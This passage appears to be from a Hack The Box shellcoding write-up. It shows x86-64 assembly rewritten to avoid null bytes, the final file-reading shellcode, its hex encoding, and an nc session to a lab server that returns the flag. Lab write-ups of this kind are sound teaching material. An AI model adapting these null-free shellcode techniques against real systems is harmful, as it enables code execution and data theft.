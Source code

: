 Here's the list of changes made to respect the requirements:
- Line 1: replace `push 0` by `xor rsi, rsi` followed by `push rsi`. This will still push 0 to the stack and will replace `mov rsi, 0` from line 13.
- Line 11: `mov al, 2` to use the 1-byte register instead of the 8-byte <b>rax</b>.
- Line 18: replace `mov rdi, rax` by `mov edi, eax' to use 4-byte size registers.
- Line 19: replace `mov rax, 0` by `xor al, al` to set the Syscall number to 0.
- Line 21: replace `mov rdx, 24` by `mov dl, 24` to use a 2-byte register, per needed.
- Line 24-25: replace `mov rax, 1` and `mov rdi, 1` by `mov al, 1` and `mov dil, 1` to use 1-byte registers.
- Line 26: remove `mov rdx, 24` since the value is alredy set previously.

This is the final code:
```nasm
global _start

section .text
_start:
    ; push './flg.txt\x00'
    xor rsi, rsi            ; set rsi to 0
    push rsi                ; push NULL string terminator
    mov rdi, '/flg.txt'     ; set the file name
    push rdi                ; push file name to stack
    
    ; open('rsp', 'O_RDONLY')
    ; rsi '0_RDONLY' is already set to 0 from previous instructions
    mov al, 2               ; open syscall number
    mov rdi, rsp            ; move pointer to filename
    syscall                 

    ; read file
    lea rsi, [rdi]          ; pointer to opened file
    mov edi, eax            ; set fd to rax from open syscall
    xor al, al              ; read syscall number
    mov dl, 24              ; size to read
    syscall

    ; write output
    mov al, 1               ; write syscall
    mov dil, 1              ; set fd to stdout
    syscall
```


If I generate the shellcode and check for null bytes this is the result :
```shell
python shellcoder.py flag
4831f65648bf2f666c672e74787457b0024889e70f05488d3789c730c0b2180f05b00140b7010f05
40 bytes - No NULL bytes
```

Finally, if I send the shellcode to the server the flag is returned :
```shell
$ nc 94.237.63.201 58840
4831f65648bf2f666c672e74787457b0024889e70f05488d3789c730c0b2180f05b00140b7010f05
HTB{5h3llc0d1ng_g3n1u5}
```